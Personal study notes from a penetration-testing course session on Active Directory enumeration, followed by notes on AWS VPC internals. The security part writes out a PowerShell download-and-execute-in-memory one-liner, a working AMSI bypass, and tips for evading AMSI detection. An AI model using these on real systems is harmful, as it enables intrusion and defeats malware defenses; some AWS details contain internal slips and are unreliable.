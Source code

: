 # OffSec Live: PEN-200 & AWS Deep Dive

author:: Nathan Acks  
date:: 2022-08-24

Notes from OffSec Live in the morning (as usual), and then a few more YouTube videos about AWS this evening.

## OffSec Live: PEN-200 — Active Directory Reconnaissance

* The Windows `whoami` supports a lot of flags. For example, `whoami /privs` returns privilege information, while `whoami /all` returns *tons* of information about the current user.
* The Windows host name will be returned by the `hostname` command.
* The Windows `systeminfo` command returns *a lot* of information about the current computer, including the associated domain controller if it’s domain-joined.
* Use `net users` to enumerate all local users on Windows.
* Use `net users /domain` to enumerate domain users. `Administrator`, `Guest`, and `krbtgt` are all standard Windows domain users.
* Windows allows for duplicate domain and local users; this is why users get prefixed by the domain or local machine name (and comparing the output of `whoami` and `hostname` will reveal if you’re logged in with a local or domain account).
* When viewing information about a Windows user, `net user $USERNAME` will return *local* user information, while `net user $USERNAME /domain` *domain* user information.
* Local and domain groups can be enumerated in Windows using `net localgroup` and `net group /domain`.
* See all Windows administrators for the local system: `net localgroup administrators`
* By default, all members of the `Domain Admins` domain group are admins of both the *domain* and *all* machines in that domain.
* One way to show domain group membership is to use `net group $GROUP /domain`. However, this *doesn’t* show domain groups that are members of that group; for this you need to use PowerShell.
* The `Get-DomainUsers | select name, memberof` PowerShell command will get domain users and associated groups.
* The `Get-DomainGroupMember -Identity $GROUP_NAME` PowerShell command will get all domain group members, *including* nested domain groups.
* The `Get-NetLoggedon | select UserName` PowerShell command will show all users that previously logged on to the current machine. It requires administrative privileges to be run against remote machines.
* The `Get-NetSession` PowerShell command will show all users who are logged in to the current machine *right now*. It can be called *without* admin privileges from Windows Server systems.
* A good enumeration tool is `PowerView.ps1`. For example, it includes the `Invoke-UserHunter` command that bundles up `Get-NetLoggedon` and `Get-NetSession` to hunt for currently logged in domain admins.
* You can download a remote script into memory and execute it using PowerShell using `IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")`. You can also load scripts into variables this way (just replace `IEX` with a variable assignment).
* Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts). However, there’s a lot of bypasses for this — for example, you can cause the AMSI init function to error out using `[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`.
* AMSI traps all PowerShell commands that contain all AMSI-function related strings, however. The search uses regular expressions, and can be bypassed by putting portions of the script you’re trying to call in variables, and then calling these instead. If you really need a one-liner, you can also do some fancy hex code conversion (see the “Bypass AMSI by manual modification” link).
* Be aware that AMSI bypasses are *per session*, not global!

### References

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellEmpire / PowerTools / PowerView / powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)

## Another Day, Another Billion Packets

* VPC was originally created to help *Amazon* migrate their data centers to AWS.
* EC2 originally just assigned new instances random IP addresses in the 10.44.x.x range. Every new instance got its own IP address, and there was no concept of unified subnets.
* VPCs solve this! Every VPC gets a non-routable network that you choose. VPC subnets can be anything, so long as they (1) don’t overlap and (2) are entirely contained within the VPC network.
* VPCs are *not* VLAN based — there are at most 4096 separate VLAN tags.
* VPCs are identified internally with a 128 bit number (8 hex digits).
* The VPC mapping service is basically an ARP cache on steroids that understands what EC2 instances and VPCs *are* and on which physical servers the instances are located. But the mapping service doesn’t *just* provide L2 information — servers receiving packets also verify that those packets are authentic (that the packet’s server/instance/VPC tuple matches an existing system).
* The mapping service also functions as a “virtual gateway”, providing routing information *between* subnets. One interesting consequence of this is that, while in a traditional network inter- and intra-network routing looks slightly different, in AWS this routing is *exactly* the same once packets leave a physical server. L2 and L3 routing are essentially unified within AWS.
* In practice, the every server contains a dedicated system that caches from the mapping service. In fact, these devices *pro-actively* cache from the mapping service as instances are spun up within a VPN. *All queries are handled by these caches.*
* There are two types of caches — caches to individual hosts (EC2) instances, and caches to “edges”, which map to other networks. Direct Connect, VPNs, and internet gateways are implemented at edges.
* Edges also function as a 1-to-1 NAT in their role as internet gateways.
* Edge devices are called “Blackfoot”, after the South African Blackfoot Penguin.
* The last non-AWS Amazon web server was deactivated on November 10, 2010. Since then, Amazon has run 100% on AWS. And Amazon uses the same EC2 instances as everyone else.
* Edges can also now route to S3, enabling S3 buckets to be exposed *privately* within a VPC. Packets routed to S2 buckets configured in this fashion *never* traverse the public internet — they go out to an edge device and then are routed from there to S3.
* S3 buckets can be restricted to particular VPCs, and EC2 instances can be restricted to accessing particular EC2 buckets. All of this is done with the standard Amazon (“Aspen”) policy document structure.
* 

### References

* [AWS re:Invent 2015: Another Day, Another Billion Packets (YouTube)](https://youtu.be/R-n4dDGfQd4)
